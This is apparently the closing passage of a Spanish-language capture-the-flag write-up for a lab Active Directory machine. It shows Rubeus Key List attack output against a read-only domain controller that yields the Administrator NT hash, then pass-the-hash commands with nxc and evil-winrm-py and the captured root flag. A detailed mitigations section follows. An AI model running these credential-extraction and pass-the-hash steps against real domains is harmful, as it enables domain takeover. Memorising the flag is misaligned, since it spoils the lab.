wCvMuaeb5Wx5wxqoxFLOUuWhs09+FVdlpRi/CF8dVxBRSxm3+Nsx4gGRDk0K2lDY1zBUxLDU9mWdgZQiy45XGF/M9x/r0ZdN3IFMIPIne+HScLRUVgOqtJ2IJyRwU8OsCnialf0B3DAVwVOqYiDaz9TRumhqKZXEUmHvU2E8SPUNwpOMy3Oo4ajYk/ybLZTPXMuBAlRSBdsXa/ekm6SXk+Wo4H+MIH7oAMCAQCigfMEgfB9ge0wgeqggecwgeQwgeGgKzApoAMCARKhIgQg+o94b7to7xxbCkbDHAmQv0fgPGN+Rdzf3viEgpqdYfuhDhsMR0FSRklFTEQuSFRCohowGKADAgEBoREwDxsNQWRtaW5pc3RyYXRvcqMHAwUAQIEAAKQRGA8yMDI2MDYxNDAyMzYwMFqlERgPMjAyNjA2MTQwMjM2MDBaphEYDzIwMjYwNjE0MTIzNjAwWqcRGA8yMDI2MDYyMTAyMzYwMFqoDhsMR0FSRklFTEQuSFRCqSEwH6ADAgECoRgwFhsGa3JidGd0GwxnYXJmaWVsZC5odGI= /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3 

[*] Action: Ask TGS

[*] Requesting 'aes256_cts_hmac_sha1' etype for the service ticket
[*] Building KeyList TGS-REQ request for: 'Administrator'
[*] Using domain controller: dc01.garfield.htb (10.129.244.207)
[+] TGS request successful!
[*] base64(ticket.kirbi):

      doIFnjCCBZqgAwIBBaEDAgEWooIEsTCCBK1hggSpMIIEpaADAgEFoQ4bDEdBUkZJRUxELkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMR0FSRklFTEQuSFRCo4IEaTCCBGWgAwIBEqEDAgECooIEVwSCBFNsdVXeY+GqMiv2QEetrsokBh+VOodtRA27Noi321ScgYzT8XUKp0KGfv/yKPZABIzDqeVCb4A5rLe5koQVWkZB+q2tpSqmIdIDBrwvoxebdgzBkKS7HuCwULqZ47Rt7ZfAWPI3ZS37S/X/aUbbuzn4RWf+bx5m0UHW+rBCao1awojfo42cpGxIrRYCfm2E2nMSo1btt6qUSa2lvoygCkBdEVXcGf/wNVIZ3sKUKpzxsZiRTAkuI0Zf//Wc/8Kc4LZFAO7vye9v/3gGkTo+t2AFFtlXIcLySQmbm+F4b/HyFmPE/ieFtGVzJ2erpmlnzDshuxMPWqQMgf35iZM+ONDKmSOukg8JsV2rIiv2JMdEJRhAVAUoy8ErKBputTNHABHlrA5SEhOiUh4CRgxp3KVaChe0Ho1UsF+5qBC5hnZYaU9luUcSvXRq6nyMZPMHmf8lyxbp9oXO+v8aegA+lKiG0oWsEivwDc9LOoZcpv75ygcc21JaphCPeOIrMYPuA4xVQ/lsLdxtZxqZ0oriseuL3urkyutLiANyoloPbeKIXr2p74ALiBm1+sC/RvxiOA/P957985MLf76+Mb1DEja9w74d0qVFmbzZkXURuEGvL6LyUQRtj3iHF/JaNqp72HXFXNtGZ17+lwnRmYhssTIBpiGVGpZeiUiveSXtZSOIak9CqG5UDXUo/j08F9brjUwGF+OGm1hcRmtAh9ZnSwUIcHIFoBwvgK00pFoqBgWQ/hjNy75k///tyLPVu5gNn9UJTqDeZI0mKnC0885r7+0eIYgNinmxz68IuBupDsVrKmKxKLUhOINezCnFLnzGveVN0o0sDFNDvv0J6OBGHPgGTHRwT9mEgD+nrtUFHGZd8VaT+QBs4n1qBxXS/Lxv7dYamMXVcoE5TSnremY5B04PeWksdPMUs7EsZBAjaOrp99pBwAkjFH0dmxyCG1xXx2mzA5hHRd5jztnq0aecLxmh3Nizv9vck5CGC0ScfxNcepKZjjFLkz0k1mq7jDbeBp7xCkGzCpk1oX4Zcb857IsHmYKFfLMuN3Bgo4hEJRYmW8Fbag1j4gIQzUDarJxqZIueutCCtXZYYlikhnH8UnBsH83huvD/8HLPIhoHc2K/u6+AUeFd/GCvsbhpYTLHv1v2A2ZSRU0ky8lNw+XAfHzgSNiDidVc99zarpQVs+eYfIOU2G7doOhrZe1zzURooi5EfCOvo8n+7/o6DY9xXyABcQEvoGteF1aYv8R/o0cXp3GMTWlVxVq7XcWcD2rc3IvUMc1S/+gU7tzPuvxNSm47QLHFnMA1ViJb5ZZgoIyCJaDvfJVJZrWGz5rSLqXULL+skgcEQFZYPuySuK0cyPNBB7jhEcuHnRH14NhgeVgnNtt5YoPyvMpEh7L6coPMRFGBrDSGIG3cZY1FSBnTT3W8IBkT0aFLWo1OtW+LUkesrog7blIO4FujUPddniMjzdX2w1ajgdgwgdWgAwIBAKKBzQSByn2BxzCBxKCBwTCBvjCBu6ArMCmgAwIBEqEiBCD8+Aj+royEccpDgwKmMXpWeGqE+frJnYFVWe00s8g1i6EOGwxHQVJGSUVMRC5IVEKiGjAYoAMCAQGhETAPGw1BZG1pbmlzdHJhdG9yowcDBQAAAQAApREYDzIwMjYwNjE0MDIzODI2WqYRGA8yMDI2MDYxNDEyMzYwMFqoDhsMR0FSRklFTEQuSFRCqSEwH6ADAgECoRgwFhsGa3JidGd0GwxHQVJGSUVMRC5IVEI=

  ServiceName              :  krbtgt/GARFIELD.HTB
  ServiceRealm             :  GARFIELD.HTB
  UserName                 :  Administrator (NT_PRINCIPAL)
  UserRealm                :  GARFIELD.HTB
  StartTime                :  6/13/2026 7:38:26 PM
  EndTime                  :  6/14/2026 5:36:00 AM
  RenewTill                :  1/1/0001 12:00:00 AM
  Flags                    :  name_canonicalize
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  /PgI/q6MhHHKQ4MCpjF6VnhqhPn6yZ2BVVntNLPINYs=
  Password Hash            :  EE238F6DEBC752010428F20875B092D5
```

## root.txt

Finalmente obtengo el hash NT del usuario `Administrator`, solo queda validarlo.

```shell
nxc smb dc01 -u Administrator -H EE238F6DEBC752010428F20875B092D5
SMB         10.129.244.207  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:garfield.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.244.207  445    DC01             [+] garfield.htb\Administrator:EE238F6DEBC752010428F20875B092D5 (Pwn3d!)
```

Y realizo la autenticación con `evil-winrm-py`.

```shell
evil-winrm-py -i dc01 -u Administrator -H EE238F6DEBC752010428F20875B092D5
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to 'dc01:5985' as 'Administrator'
evil-winrm-py PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
0902ea6e7abe68bfbd85fa025494ea1d
```

## Mitigations

### SYSVOL / scriptPath
- Restringir el acceso de escritura sobre SYSVOL y NETLOGON exclusivamente a Domain Admins y cuentas de servicio estrictamente necesarias. Por diseño estos shares son de lectura para todos los usuarios autenticados, pero nunca deberían ser escribibles por cuentas estándar; auditar sus ACL periódicamente.
- Revisar y restringir el permiso `WriteProperty` sobre el atributo `scriptPath` a nivel de usuario/OU/grupo. Una delegación mal configurada (como la observada de j.arbuckle sobre l.wilson/l.wilson_adm) permite convertir un logon script legítimo en un vector de ejecución de código.
- Aplicar control de ejecución de scripts mediante AppLocker o WDAC (reglas por hash/ruta/publisher), y de forma independiente, monitorizar/auditar modificaciones sobre los archivos de logon script, correlacionando cambios con ventanas de mantenimiento conocidas.

### ACLs y BloodHound Attack Paths
- Auditar regularmente el dominio con BloodHound (o equivalentes como Adalanche) para identificar rutas de ataque no intencionadas: `ForceChangePassword`, `AddSelf`, `GenericWrite`, `WriteDacl`, etc.
- Aplicar Tiered Administration de forma estricta: una cuenta administrativa (l.wilson_adm) no debe depender de permisos o delegaciones controlables desde su cuenta de uso diario asociada (l.wilson). En este caso, `ForceChangePassword` de l.wilson sobre l.wilson_adm rompe esa separación.
- Revisar membresías del grupo con permisos administrativos sobre el RODC y eliminar cualquier ACE tipo `Self`/`AddSelf` que permita a cuentas estándar auto-agregarse a dicho grupo.

### Delegación y administración de RODC
- Minimizar y documentar quién tiene permisos delegados (`WriteProperty`, `GenericWrite`, `WriteDacl`) sobre el objeto de equipo del RODC, en especial sobre el atributo `managedBy`, que otorga privilegios de administrador local del RODC a la identidad especificada.
- Generar alertas SIEM sobre cualquier modificación del atributo `managedBy` en objetos computer dentro de la OU Domain Controllers.
- No otorgar membresía en grupos con permisos administrativos sobre el RODC salvo a las identidades estrictamente necesarias para la administración del sitio remoto.

### Password Replication Policy (PRP)
- Verificar que `msDS-RevealOnDemandGroup` y `msDS-NeverRevealGroup` no hayan sido alterados respecto a su configuración segura: por defecto, cuentas Tier 0 (Domain Admins, Enterprise Admins, krbtgt, etc.) ya deberían estar en el grupo de denegación (NeverReveal); esta denegación tiene prioridad sobre el allow-list, pero no debe ser el único control.
- Auditar cambios sobre estos atributos (evento 5136) y alertar ante modificaciones fuera de ventanas de cambio autorizadas.
- Revisar periódicamente las credenciales efectivamente cacheadas en cada RODC (`repadmin /prp view <RODC> allow`) para detectar principals que no deberían estar replicados.

### Golden Ticket (compromiso de krbtgt)
- Rotar la contraseña de la cuenta krbtgt (y de las cuentas krbtgt_XXXXX de cada RODC) tras cualquier compromiso de administrador local en un DC/RODC, rotándola dos veces de forma consecutiva y respetando el tiempo de expiración de tickets entre rotaciones.
- Habilitar auditoría de Kerberos (eventos 4768/4769) para detectar emisión anómala de TGTs.

### Key List Attack (abuso de krbtgt en RODC)
- Monitorizar específicamente solicitudes TGS-REQ con padata `KERB-KEY-LIST-REQ` dirigidas al servicio krbtgt del RODC, correlacionando usuario, equipo de origen y contexto de autenticación, ya que es la firma característica de esta técnica de extracción de claves vía PRP.
- Restringir el acceso administrativo local a los RODC mediante LAPS (o una solución PAM equivalente) para evitar que un compromiso de admin local derive en abuso del krbtgt del RODC.

### Acceso remoto y segmentación
- Exigir MFA para el acceso administrativo remoto (RDP/WinRM) a cuentas Tier 0/Tier 1, mediante jump host, VPN o solución PAM.
- Restringir el uso de PsExec y recursos administrativos (ADMIN$) vía SMB desde segmentos de red no confiables.
- Segmentar la red de forma que el segmento donde reside el RODC no sea alcanzable directamente desde equipos de usuario estándar, forzando el paso por un jump host controlado.

### General
- Aplicar el principio de menor privilegio en todas las delegaciones de AD (usuarios, OUs, grupos, objetos de equipo); revisar periódicamente con BloodHound/dacledit en busca de ACEs residuales de despliegues o pruebas anteriores.
- Deshabilitar SMBv1 y mantener SMB signing forzado en todos los DCs/RODCs.
- Evaluar el uso de Protected Users y Authentication Silos para cuentas Tier 0/Tier 1, **probando previamente en entorno de staging**: Protected Users fuerza autenticación Kerberos pura y puede romper aplicaciones que dependan de NTLM, delegación o caching de credenciales.
